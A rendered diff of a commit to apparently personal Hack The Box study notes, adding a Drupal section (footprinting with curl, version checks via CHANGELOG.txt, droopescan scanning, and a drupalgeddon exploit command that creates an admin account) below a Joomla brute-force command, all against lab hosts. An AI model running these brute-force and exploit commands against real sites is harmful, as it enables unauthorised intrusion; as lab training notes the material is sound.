

Before and after one commit to koen199/my-htb-scripts, a Markdown page: modules/attack common applications/notes.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
more notes

````diff
--- a/modules/attack common applications/notes.md
+++ b/modules/attack common applications/notes.md
@@ -104,3 +104,25 @@ Brute forcing a login:
 ```
 sudo python3 joomla-brute.py -u http://app.inlanefreight.local -w /usr/share/wordlists/metasploit/http_default_pass.txt -usr admin
 ```
+
+# Drupal
+
+Basic footprinting of a drupal site:
+```
+curl -s http://drupal.inlanefreight.local | grep Drupal
+```
+
+Enumerating the version using changelog:
+```
+curl -s http://drupal-acc.inlanefreight.local/CHANGELOG.txt | grep -m2 ""
+```
+
+Automatic enumeration is possible with droopescan:
+```
+droopescan scan drupal -u http://drupal.inlanefreight.local
+```
+
+Most notable expoits are the three drupalgeddon exploits....
+```
+python2.7 drupalgeddon.py -t http://drupal-qa.inlanefreight.local -u hacker -p pwnd
+```
````
